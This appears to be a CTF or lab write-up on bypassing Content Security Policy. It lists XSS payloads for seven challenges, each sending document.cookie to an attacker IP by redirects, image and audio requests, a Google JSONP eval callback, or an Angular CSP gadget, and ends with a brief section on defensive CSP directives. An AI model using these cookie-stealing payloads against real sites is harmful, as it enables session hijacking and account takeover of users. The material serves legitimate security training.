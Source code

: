 # payloads
chal1 is pretty straightforward, chal2 allows loading of resources from unsafe sources, chal3 allows loading images form unsafe sources, chal4 requires a matching nonce attribute.

```text-plain
chal1: <script>document.location='http://10.17.17.11/?cookie='+document.cookie</script>


chal2: <script src="api/images/8QSTj0ThetVy/${document.cookie}`)"></script>

chal3: <script>(new Image()).src = `http://10.17.17.11/${encodeURIComponent(document.cookie)}`</script>

chal4: <script nonce="abcdef">window.location='http://10.17.17.11/'+document.cookie</script>
```

chal5 trusts google subdomains and unsafe eval function allows cookie stealing.

```text-plain
chal5: <script src="https://accounts.google.com/o/oauth2/revoke?callback=eval((new Image()).src = `http://10.17.17.11/${encodeURIComponent(document.cookie)}`)"></script>

		<script src="//accounts.google.com/o/oauth2/revoke?callback=eval(document.location='http://10.17.17.11/'.concat(document.cookie))"></script>
```

chal6 trusts cloudflare, just finding the correct syntax( [https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass) )

```text-plain
chal6: <script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.3/prototype.min.js" integrity="sha512-C4LuwXQtQOF1iTRy3zwClYLsLgFLlG8nCV5dCxDjPcWsyFelQXzi3efHRjptsOzbHwwnXC3ZU+sWUh1gmxaTBA==" crossorigin="anonymous"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.min.js"></script>
<div ng-app ng-csp>

{{$on.curry.call().document.location='http://10.17.17.11/' + $on.curry.call().document.cookie}}

</div>
```

chal7 allows xss from its error pages `/` and using audio function we can exfill the cookie

```text-plain
chal7: <script src="/'; new Audio('http://10.17.17.11/' + document.cookie); '"></script>
```

Defend:
-------

first, defend chal is pretty simple, just limiting scripts to our website `script-src ‘self’;`

In second, we have to use a nonce value(aparantly others don't work and you have to use helmet, not figuring out how to now tho) `script-src ‘nonce-ae3b00’;`

for third, we need a sha256 hash of the inline js(view source and between script tags `console.log("__defend-3_REAL=true"))`

use [https://report-uri.com/home/hash](https://report-uri.com/home/hash)  to generate hash and use it like so:

`script-src 'sha256-8gQ3l0jVGr5ZXaOeym+1jciekP8wsfNgpZImdHthDRo=';`